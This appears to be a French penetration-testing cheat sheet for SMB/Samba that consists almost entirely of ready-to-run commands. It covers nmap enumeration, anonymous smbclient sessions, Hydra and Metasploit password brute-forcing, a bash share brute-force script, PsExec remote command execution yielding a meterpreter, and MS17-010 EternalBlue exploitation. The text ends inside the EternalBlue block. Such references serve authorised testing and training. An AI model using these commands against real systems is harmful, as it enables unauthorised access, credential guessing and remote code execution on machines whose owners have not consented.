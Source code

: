# 📁 Énumération SMB/Samba

[← Retour à la table des matières](../README.md)

## Port par défaut : 445

## Nmap Scripts SMB
```bash
nmap -p445 --script smb-protocols targetIP
nmap -p445 --script smb-security-mode targetIP
nmap -p445 --script smb-enum-sessions targetIP
nmap -p445 --script smb-enum-shares targetIP
nmap --script smb-os-discovery.nse -p 445 targetIP
```

## Metasploit Modules
```bash
use scanner/smb/smb_enumusers
use scanner/smb/smb_login
    set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
    set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
use auxiliary/scanner/smb/smb_enumshares
use auxiliary/scanner/smb/smb_version
```

## Sessions anonymes
```bash
smbclient -L targetIP -N
rpcclient -U "" -N targetIP
```

## Enum4linux
```bash
enum4linux -a targetIP
```

## Hydra Bruteforce
```bash
# Bruteforce SMB
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt smb://targetIP
```

## CrackMapExec - Énumération des shares
```bash
# Vérifier les permissions des shares avec des credentials
crackmapexec smb targetIP -u administrator -p password --shares
```

## Connexion aux shares
```bash
# Connexion au share C$ (nécessite des privilèges admin)
smbclient //targetIP/C$ -U administrator

# Connexion à un share spécifique
smbclient //targetIP/sharename -U username
```

## Script de bruteforce des shares
```bash
#!/bin/bash
TARGET="targetIP"
WORDLIST="/root/Desktop/wordlists/shares.txt"

if [ ! -f "$WORDLIST" ]; then
    echo "Wordlist not found: $WORDLIST"
    exit 1
fi

while read -r SHARE; do
    echo "Testing share: $SHARE"
    smbclient //$TARGET/$SHARE -N -c "ls" &>/dev/null
    
    if [ $? -eq 0 ]; then
        echo "[+] Anonymous access allowed for: $SHARE"
    else
        echo "[-] Access denied for: $SHARE"
    fi
done < "$WORDLIST"
```

## SMB avec PsExec (nécessite des credentials légitimes)

### Test de login SMB
```bash
use auxiliary/scanner/smb/smb_login
set RHOSTS targetIP
set SMBUser administrator
set SMBPass password
run
```

### PsExec avec Impacket
```bash
# Exécution directe
psexec.py administrator@targetIP cmd.exe
```

### PsExec avec Metasploit
```bash
use exploit/windows/smb/psexec
set RHOSTS targetIP
set SMBUser administrator
set SMBPass password
run
# Obtention d'un meterpreter
```

## MS17-010 EternalBlue

### Détection de la vulnérabilité
```bash
# Nmap script de détection
nmap -sV -p 445 --script=smb-vuln-ms17-010 targetIP

# Scanner Metasploit
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS targetIP
run
```

### Exploitation EternalBlue
```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS targetIP
run